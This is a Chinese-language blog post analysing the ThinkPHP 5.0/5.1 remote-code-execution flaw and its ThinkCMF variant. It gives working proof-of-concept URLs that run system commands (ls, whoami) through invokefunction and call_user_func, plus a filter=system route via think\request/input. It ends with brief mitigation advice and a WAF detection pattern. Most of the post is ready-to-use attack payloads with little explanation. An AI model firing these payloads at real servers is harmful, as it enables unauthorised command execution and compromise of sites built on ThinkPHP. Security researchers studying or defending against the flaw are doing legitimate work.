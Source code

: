 ```yaml
---
layout: post
title:  "Thinkphp5 getshell漏洞分析"
---
```

# Thinkphp5 getshell漏洞分析

* 通杀所有使用了thinkphp5.0和5.1
* 实际上在不同使用thinkphp5开发的cms中getshell的参数会有差异

### 在thinkphp5 getshell poc
这是目前公开5.0.20的poc<br/>
/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls<br/>
![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
调用过程如下<br/>
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
详情分析：https://www.anquanke.com/post/id/167653<br/>
另外可利用的index/\think\request/input<br/>
传入data=ls name= default= filter=system<br/>
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/2.jpg)<br />
通过call_user_func执行<br/>
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
并不局限于以上两个方法，但一定是think\这个命名空间下的已知类<br/>
### thinkcmf利用过程区别
getshell poc<br/>
/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami<br/>
![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/4.jpg)<br />
1.thinkcmf默认不存在index，这里我选用portal<br/>
![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/5.jpg)<br />
2.参数差异，这里要使用function_name parameters<br/>

### 防护
1.代码本身就更新thinkphp5，或修改代码。<br/>
2.防护设备可以匹配s=.*?/\\think\\.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。<br/>